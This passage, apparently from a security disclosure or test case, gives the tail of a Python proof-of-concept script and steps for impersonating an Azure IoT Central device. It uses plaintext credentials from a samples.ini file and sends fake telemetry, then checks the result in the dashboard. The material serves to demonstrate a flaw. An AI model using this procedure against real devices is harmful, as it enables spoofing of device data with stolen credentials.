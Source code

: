        async def main():
           await client.connect()
           print(f"Attacker device connected as: {device_id}")
           for _ in range(5): # Send malicious telemetry 5 times
               malicious_data = {"maliciousTelemetry": "ATTACK!"}
               await client.send_telemetry(malicious_data)
               print(f"Sent malicious telemetry: {malicious_data}")
               await asyncio.sleep(2)
           await client.disconnect()

       if __name__ == "__main__":
           asyncio.run(main())
       ```
     - Place the copied `samples.ini` in the same directory as `attacker_script.py`.
     - Run `attacker_script.py`: `python attacker_script.py`

  5. **Step 4: Verify Impersonation in Azure IoT Central:**
     - Go to your Azure IoT Central application and navigate to the "Devices" section.
     - Find the Device ID you used in `samples.ini`.
     - Check the telemetry data received by the device. You should see the "maliciousTelemetry": "ATTACK!" messages sent by the `attacker_script.py`, confirming that the attacker successfully impersonated the device and sent data using the stolen plaintext credentials.

  This test case successfully demonstrates that plaintext storage of credentials in `samples.ini` allows an attacker to impersonate a device and send malicious telemetry.